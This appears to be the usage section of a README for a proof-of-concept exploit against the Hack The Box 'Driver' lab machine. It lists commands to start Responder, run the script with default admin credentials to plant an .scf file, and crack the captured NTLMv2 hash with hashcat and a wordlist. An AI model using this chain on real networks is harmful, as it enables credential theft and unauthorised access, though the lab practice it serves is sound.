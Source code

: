 #### USAGE: 

* Start Responder: Sudo responder -I tun0
* Run script
  * EX: python3 poc_exploit1.py http://10.10.11.106 admin admin /home/kali/htb/driver/test.scf
* Capture and crack the NTLMv2 hash using hashcat
  * EX: hashcat -m 5600 captured_hash.txt ~/Desktop/rockyou.txt
